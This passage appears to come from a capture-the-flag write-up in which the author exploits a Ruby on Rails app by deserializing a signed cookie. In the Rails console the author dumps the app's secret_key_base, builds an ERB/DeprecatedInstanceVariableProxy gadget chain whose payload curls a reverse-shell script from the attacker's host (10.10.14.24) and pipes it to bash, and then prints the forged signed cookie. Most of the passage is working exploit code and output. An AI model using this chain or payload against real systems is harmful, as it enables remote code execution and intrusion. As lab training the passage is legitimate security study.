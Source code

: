 ```shell
irb(main):003:0> cookies = request.cookie_jar
=> #<ActionDispatch::Cookies::CookieJar:0x00007ff69eb70e98 @set_cookies={}, @delete_cookies={}, @request=#<ActionDispatch::Request:0x00007ff69e3917b8 @env={"action_dispatch.parameter_filter"=>[/token$/, /password/, /secret/, /key$/, /^body$/, /^description$/, /^note$/, /^text$/, /^title$/, :certificate, :encrypted_key, :hook, :import_url, :otp_attempt, :sentry_dsn, :trace, :variables, :content, :sharedSecret, /^((?-mix:client_secret|code|authentication_token|access_token|refresh_token))$/], "action_dispatch.redirect_filter"=>[], "action_dispatch.secret_key_base"=>"3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3", "action_dispatch.show_exceptions"=>true, "action_dispatch.show_detailed_exceptions"=>false,
[..SNIP..]
```

Setting up the payload, Initially when I did this box I had difficulties sending reverse shell payload directly so Here I'll curl a file `rev.bash` which contains Python reverse shell from my Web server and pipe it to bash:

```ruby
irb(main):004:0> erb = ERB.new("<%= `curl http://10.10.14.24:8080/rev.bash | bash` %>")
=> #<ERB:0x00007ff699607498 @safe_level=nil, @src="#coding:UTF-8\n_erbout = +''; _erbout.<<(( `curl http://10.10.14.24:8080/rev.bash | bash` ).to_s); _erbout", @encoding=#<Encoding:UTF-8>, @frozen_string=nil, @filename=nil, @lineno=0>
```

Here next two commands tries to fetch the file and run the payload here itself, so we shouldn't run the webserver while executing these commands, also In case you are sending reverse shell payload directly then it's advised not to run the listener while sending these commands:

```ruby
irb(main):005:0> depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (7) Failed to connect to 10.10.14.24 port 8080: Connection refused
=> ""

irb(main):006:0> cookies.signed[:cookie] = depr
DEPRECATION WARNING: @result is deprecated! Call result.is_a? instead of @result.is_a?. Args: [Hash] (called from irb_binding at (irb):7)
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (7) Failed to connect to 10.10.14.24 port 8080: Connection refused
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (7) Failed to connect to 10.10.14.24 port 8080: Connection refused
=> ""
```

Finally generating cookie value:

```ruby
irb(main):007:0> puts cookies[:cookie]
BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kibiNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBjdXJsIGh0dHA6Ly8xMC4xMC4xNC4yNDo4MDgwL3Jldi5iYXNoIHwgYmFzaGAgKS50b19zKTsgX2VyYm91dAY6BkVGOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcKVVRGLTgGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lbm9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7ClQ6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ6OkRlcHJlY2F0aW9uAAY7ClQ=--c13c402abdc9f0aabfd22f5544ab2d713e509334
=> nil
irb(main):009:0> quit
```
